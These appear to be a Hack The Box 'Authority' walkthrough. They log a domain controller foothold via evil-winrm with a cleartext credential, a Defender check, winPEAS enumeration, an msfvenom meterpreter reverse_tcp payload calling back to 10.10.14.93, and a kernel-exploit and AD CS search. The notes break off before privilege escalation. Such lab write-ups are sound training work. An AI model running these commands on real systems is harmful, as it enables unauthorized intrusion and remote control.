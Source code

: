 
We got our an initial foothold on the DC using svc_ldap.
```sh
evil-winrm \
	-i authority.authority.htb \
	-u svc_ldap@authority.htb \
	-p 'lDaP_1n_th3_cle4r!'
```
![](images/foothold.png)

```c
Get-ComputerInfo
```
![](images/OS.png)

Windows defender is not running! 
```
sc.exe query windefend
```
![](images/windefend.png)

Let's use local_exploit_suggester  and  run winPEAS for now in the background. 

```
.\winPEASx64.exe >> enum.txt
```
```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp \
	LHOST=10.10.14.93 \
	LPORT=53 \
	EXITFUNC=thread \
	-f exe \
	-o app.exe
```
We upload app.exe that we use to get a meterpreter session. Now we can use it to look for exploits. 

![](images/session.png)

```
use post/multi/recon/local_exploit_suggester
```
![](images/exploits.png)

We are not an administrator user so bypassing UAC will not help us.  

Also we can not even list local printers so we're not gonna be able to use a printer related exploit either. 

![](images/noprinter.png)


**MS16-032**

We've found precompiled binaries on the [SecWiki](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032)'s  repository  and more information about the race condition.   
However based on the info we found on [exploit-db](https://www.exploit-db.com/exploits/39719) it should not work on windows server 2019. 

**CVE-2022-21882**

I guess this one could potentially crash box.
Let's have a look at the output of  the winPEAS command then we come back to this if we get desperate hehe. 

![](images/crash.png)

---

**winPEAS**

![](images/krbrelay.png)

I didn't find a whole lot of info using winpeas either.   
However I found  a LDAPs.pfx certificate lying around on c:/certs  

![](images/LDAPs.png)

I don't know  what I can do with it. And I don't know how to crack it.  Cus I tried using
pfx2john + john and couldn't find the secret yet.


**Found a clue**

![](images/direction.png)

I have no idea about what I'm doing .. but I guess I have a new direction.

Whatever we do to privesc it might have something to do with the playbooks we've 
found on the the Development share. 

I heard something about _Certificate template injection?_   on THM but have no idea on how to exploit it. The only thing I know is that  it has something to do with ADCS.

Time to google!

https://tryhackme.com/r/room/adcertificatetemplates

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation

